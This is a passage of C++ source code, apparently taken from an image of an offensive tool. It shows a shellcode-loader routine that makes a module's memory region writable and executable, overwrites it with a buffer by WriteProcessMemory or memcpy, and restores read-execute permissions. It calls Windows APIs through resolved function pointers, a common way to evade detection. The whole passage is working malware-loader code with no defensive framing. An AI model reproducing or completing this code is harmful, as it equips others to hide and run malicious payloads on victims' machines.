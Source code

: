 ```cpp
    printfFunc("Shellcode Size: %u\n", shellcodeSize);
#endif

    // Making the memory region RW
    VirtualProtectFunc((LPVOID)startAddress, shellcodeSize, PAGE_EXECUTE_READWRITE, &oldProtect);
#ifdef _DEBUG
    printfFunc("Memory is now RW\n");
#endif

#ifdef DEBUG_SLEEP
    // Sleep to inspect execution
    SleepFunc(SHORT_SLEEP);
#endif // !DEBUG_SLEEP

    // We restore the memory content of the DLL
#ifdef WPM
    SIZE_T numberOfBytesWritten;
    BOOL success = WriteProcessMemoryFunc((HANDLE)-1, (LPVOID)startAddress, (LPCVOID)cbBuf, (SIZE_T)shellcodeSize, &numberOfBytesWritten);
#else

    memcpyFunc((LPVOID)startAddress, (LPVOID)cbBuf, shellcodeSize);
#endif

#ifdef _DEBUG
    printfFunc("Buffer copied\n");
#endif

#ifdef DEBUG_SLEEP
    // Sync sleep
    SleepFunc(SHORT_SLEEP);
#endif // !DEBUG_SLEEP

    // Making the memory region RX again
    VirtualProtectFunc((LPVOID)startAddress, shellcodeSize, PAGE_EXECUTE_READ, &oldProtect);
#ifdef _DEBUG
    printfFunc("Memory is now RX\n");
#endif

#ifdef DEBUG_SLEEP
    // Sync sleep
    SleepFunc(500);
#endif // !DEBUG_SLEEP

#if defined(_DEBUG) && defined(WPM)
    if (!success) {
        printfFunc("Error writing memory\n");
    }
    else {
        printfFunc("Successfully overwritten memory\n");
    }
#endif

    freeFunc(cbBuf);

    // Now we can release the mutex
    if (NULL != mutex) {
        // Mutex exists, so we exit
        CloseHandleFunc(mutex);
    }


    // We can finally delete the key
```